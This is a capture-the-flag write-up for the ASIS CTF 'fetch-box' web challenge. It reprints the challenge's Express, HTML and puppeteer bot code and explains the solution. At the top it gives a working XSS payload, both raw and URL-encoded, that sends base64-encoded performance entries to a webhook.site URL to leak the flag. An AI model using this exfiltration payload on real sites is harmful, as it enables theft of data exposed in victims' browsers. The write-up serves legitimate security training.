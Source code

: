 # fetch-box
http://fetch-box.asisctf.com:3000/ #page xss  
http://fetch-box.asisctf.com:1337/ #admin bot  
wu:  
window.location.assign("https://webhook.site/3c763848-b83f-415d-b837-807111679f92?a=" + btoa(JSON.stringify(window.performance.getEntries())));  
report: http://web:3000/?xss=window.location.assign%28%22https%3A%2F%2Fwebhook.site%2F3c763848-b83f-415d-b837-807111679f92%3Fa%3D%22%20%2B%20btoa%28JSON.stringify%28window.performance.getEntries%28%29%29%29%29%3B  
![image](https://github.com/user-attachments/assets/4eba27b3-f6b3-46da-9360-e08af0322588)
## so how is work
look into source:  
![image](https://github.com/user-attachments/assets/5bdcbca4-0f80-4a54-9995-939eae804117)

we have 2 folder  
web: port 3000  
bot: port 1337
## web
index.js:  
```
import express from "express";
import fs from "node:fs";

const html = fs.readFileSync("index.html", { encoding: "utf8" });

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "base-uri 'none'; frame-ancestors 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .get("/ping", (req, res) => res.type("text").send("pong"))
  .listen(3000);
```

Looks meaningless, right?. CSP to protect what?

but when we look at index.html:

<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "🚩";
      localStorage.removeItem("flag");

      const fetch = Object.freeze(window.fetch);
      const resource = `/ping?${new URLSearchParams({ flag })}`;
      const options = Object.create(null);

      const fun = () => fetch(resource, options);
      setInterval(fun, 500);
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";
    setTimeout(xss, 800);
  </script>
</body>

ye that makes sense  
summary:  
take flag from localStorage and removte it, next freezing fetch prevents us from overwriting it. final fetch to /ping with flag. Below code use to xss.
## bot
bot.js:
```
import puppeteer from "puppeteer";

const FLAG = process.env.FLAG ?? console.log("No flag") ?? process.exit(1);

const APP_HOST = "web";
const APP_PORT = "3000";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

// Flag format
if (!/^ASIS{\w+}$/.test(FLAG)) {
  console.log("Bad flag");
  process.exit(1);
}

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/chromium",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    const page1 = await context.newPage();

    await page1.goto(APP_URL + "/ping", { timeout: 3_000 });
    await page1.evaluate((flag) => {
      localStorage.setItem("flag", flag);
    }, FLAG);
    await sleep(1_000);
    await page1.close();

    const page2 = await context.newPage();
    await page2.goto(url, { timeout: 5_000 });
    await sleep(10_000);
    await page2.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
summary:  
visit web:3000/ping and add flag to localStorage, next visit our url
obstruction:
because xss code is outside the anonymous function so we cant take flag varriable.  
web:3000 has csp so we cant use xss like iframe and base to steal flag
attack vector:
we can use performance to get flag   
https://developer.mozilla.org/en-US/docs/Web/API/Performance  
![image](https://github.com/user-attachments/assets/d47f53fe-d97d-48f1-a904-47e706a7f44e)

